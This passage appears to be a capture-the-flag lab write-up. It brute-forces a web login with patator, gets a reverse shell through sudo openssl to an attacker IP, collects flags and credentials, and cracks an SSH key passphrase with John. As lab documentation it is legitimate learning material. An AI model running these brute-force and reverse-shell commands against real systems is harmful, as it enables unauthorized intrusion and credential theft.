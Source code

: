 From the `/backdoor/shell` html code, we knew that the user was probably `plague`.

So let's try to bruteforce the `/backdoor` login

```
patator http_fuzz url=http://$IP/api/login method=POST body="username=plague&password=FILE0" 0=/usr/share/wordlists/rockyou.txt -x ignore:fgrep="Incorrect"
```

We find plague password:
```
plague:namaste
```

And now we are logged in as `production`.

We `sudo -l` :
```
(root) NOPASSWD: /usr/bin/openssl
```

We find on gtfobin that we can listen on a port using `openssl` on our machine with :
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

Then we run this on the box :
```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -connect 10.10.231.206:8889 > /tmp/s; rm /tmp/s
```

For some reason, it gives us a shell but it isn't root... lame.

We can still browse the `production` user. We find a flag in `/home/production/.flag`:
```
thm{879f3238fb0a4bf1c23fd82032d237ff}
```

There was apparently a flag in a css file comment :
```
/home/production/webserver/resources/main.css:
/* Curious one, aren't you? Have a flag. thm{b63670f7192689782a45d8044c63197f}*/
```

```
thm{b63670f7192689782a45d8044c63197f}
```

In the meantime, the password for gcrawford returned :
```
gcrawford:yusuke
```

We retrieve the ssh key using ftp and login via ssh.
But we got to enter a passphrase.. I guess we have to crack it with John.

We run 
```
/usr/share/john/ssh2john.py ./id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
